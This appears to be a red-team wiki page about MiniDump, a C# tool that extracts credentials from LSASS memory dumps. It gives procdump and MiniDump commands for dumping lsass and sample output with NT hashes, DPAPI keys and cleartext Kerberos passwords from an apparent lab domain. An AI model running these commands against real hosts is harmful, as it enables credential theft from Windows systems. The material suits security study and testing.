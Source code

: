 ```yaml
---
title : "Minidump"
# pre : ' '
description : "C# implementation of mimikatz/pypykatz minidump functionality to get credentials from LSASS dumps."
date : 2021-10-22T11:14:39+02:00
# hidden : true
# draft : true
weight : 0
tags : ['Windows', 'LSASS']
---
```


## Minidump

C# implementation of mimikatz/pypykatz minidump functionality to get credentials from LSASS dumps.

Supported Credentials:

* Lsa
* Msv
* Kerberos
* WDigest
* SSP
* TsPkg
* Credman
* Dpapi
* CloudAP

## Installation

{{%attachments title="Related files" fa_icon_class="far fa-file" pattern=".*(exe)"/%}}

## Usage

[Sysinternals - procdump]({{< ref "sysinternals" >}})

```plain
PS C:\> .\procdump64.exe (ps lsass).id data -ma
PS C:\> MiniDump.exe lsass.dmp
```

## Examples

```plain
PS C:\Users\johndo\Downloads> .\MiniDump.exe C:\temp\lsass.DMP
Dpapi failed: Object reference not set to an instance of an object.
=====================================================================
[*] LogonId:     0:56684667
[*] LogonType:   CachedInteractive
[*] Session:     1
[*] LogonTime:   2021-10-25 13:46:52
[*] UserName:    Administrator
[*] SID:         S-1-5-21-1182270690-2338034634-174722242-500
[*] LogonDomain: OFFSEC
[*] LogonServer: SRV2016
[*] Msv
    DomainName: OFFSEC
    UserName:   Administrator
    NT:      97f2592347d8fbe42be381726ff9ea83
    Sha1:    d0321e2e4e0712ba7b3f8c1998931312bf6a8b05
    Dpapi:   408853f35eebebe52bffa11b77478cca
[*] Kerberos
    DomainName: OFFSEC.NL
    UserName: Administrator
    Password: Welkom1234
=====================================================================
[*] LogonId:     0:55957391
[*] LogonType:   Interactive
[*] Session:     2
[*] LogonTime:   2021-10-25 13:45:17
[*] UserName:    DWM-2
[*] SID:         S-1-5-90-0-2
[*] LogonDomain: Window Manager
[*] Msv
    DomainName: OFFSEC
    UserName:   WIN10$
    NT:      b5fb60bc5eb9092f9f96b89fcf0fee45
    Sha1:    33bcd239a53d5650bebd83a4963630805ab24465
[*] Kerberos
    DomainName: offsec.nl
    UserName: WIN10$
    Password: 82 b5 45 75 ad 5b 36 d1 3e 3a cf 7b fb ea 0a ca 48 63 92 25 71 53 0b f4 2d f8 80 48 28 7f fc 96 43 5b 30 19 ba 4c 88 be 53 7b 7b 11 a9 d8 c1 23 88 e2 24 01 64 45 31 08 08 af c6 97 bb 88 6e 0f 86 05 dd 43 12 d2 81 f3 ab e1 c3 11 1e cc 42 13 d2 e4 24 fa 2f 8e 6f eb 02 70 2e d4 92 30 42 01 a9 bd f9 cc 34 63 b2 78 41 c2 f4 94 73 8a 24 9c 3d cf 1d cf d5 5a dc 8b 47 0a c6 20 62 f8 8f 70 2c 16 92 ed f6 0a 4e 59 fe d4 7d d2 94 77 11 8a 4c c2 ce 3e 45 d4 53 e4 e7 e5 96 23 99 03 29 5e 2d 85 76 66 59 39 cc 33 1a cc 7a ac e5 c9 36 1d f2 18 0a fe 8b e3 41 ae 4c bd 0c fc 1a 5b a6 1b f2 c8 00 b7 19 5c 28 90 10 4b 32 a5 38 e0 44 1d b2 72 db c9 e5 ad 86 0f 7c 34 d1 82 40 24 83 0f 2f 60 3c 28 78 dc ef 82 03 de 4a 13 33 62 c3 5f
    NT: B5FB60BC5EB9092F9F96B89FCF0FEE45
[...]
```

## URL List

* [Github.com - Minidump](https://github.com/cube0x0/MiniDump)
